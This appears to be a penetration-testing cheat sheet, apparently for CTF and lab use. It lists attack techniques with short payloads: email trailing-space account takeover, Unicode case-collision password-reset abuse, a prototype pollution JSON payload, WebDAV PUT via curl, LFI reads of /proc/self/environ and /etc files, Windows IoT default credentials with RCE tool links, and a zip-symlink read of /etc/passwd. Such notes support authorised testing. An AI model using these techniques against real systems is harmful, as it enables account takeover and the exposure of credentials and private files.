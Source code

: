 ## Login exploits

	1. While registering account, try to append a space at the end of already registered email to attempt user account takeover(db removes trailing space while inserting however application not).

	2. If email maximum length is fixed and characters after allowed length are stripped, try to register an email having spaces appended till maximum character length + any character at end, eg <admin@htb.com      #>. 

## Unicode Collisions

unicode characters collide with few english characters. This fact can be used to exploit functionalities like - when Forgot password emails validated against lowercase/uppercase value on file, but sent to the provided input email.

```
// https://eng.getwisdom.io/hacking-github-with-unicode-dotless-i/

//uppercase scenario
chr(0x017f).upper()=='S'	# returns True
chr(0x0131).upper()=='I'

// lowercase scenario
chr(0x212A).lower()=='k'
```

## Javascript prototype pollution

Using this bug, we can set new properties of objects. Eg- we can set json object {"user":"test"} new property admin=true if server takes json data and sets attributes using it. 

payload `{"user":"test","__proto__":{"admin":true}}`

```
a={}
b=1
c='ds'

# polluting prototype
a.__proto__.foo='bar'

# All objects have foo property now with value bar
d=new Object
d.foo=='bar'	# true
b.foo=='bar'	# true
```

## WebDAV/PUT method enabled

```
curl -X PUT http://192.168.14.129/dav/test.txt
cadaver http://target/dav
```


## LFI

```
cat /proc/version
cat /etc/issue
cat /proc/self/environ
cat /proc/net/tcp	# listening processes tcp
cat /proc/net/udp	# listening processes udp
```

## Universal Plug and Play UPnP 

* Windows Device Portal - port 8080

	Windows IoT Core devices support a special webserver called the Device Portal. Windows Device Portal runs on port 8080 in Development mode and has default credentials as Administrator and p@ssw0rd (zero).

	RCE can be acheived using the vulnerability in Sirep/WPCon communications protocol included with Windows IoT operating system.

	```
	// git clone the repo
	https://github.com/SafeBreach-Labs/SirepRAT
	```

* CallStranger(CVE-2020-12695) Vulnerability - port 37215

	The vulnerability – CallStranger – is caused by Callback header value in UPnP SUBSCRIBE function can be controlled by an attacker and enables an SSRF-like vulnerability.

	```
	// git clone the repo
	https://github.com/yunuscadirci/CallStranger
	```

## Zip Symlink

If zip files can be uploaded and content is accessible. Try to access local files using this bug. 

```
mkdir test
cd test
ln -s /etc/passwd link.txt
cat link.txt 		# prints content of /etc/passwd
zip --symlinks -r test.zip test/
unzip -l test.zip
```

## 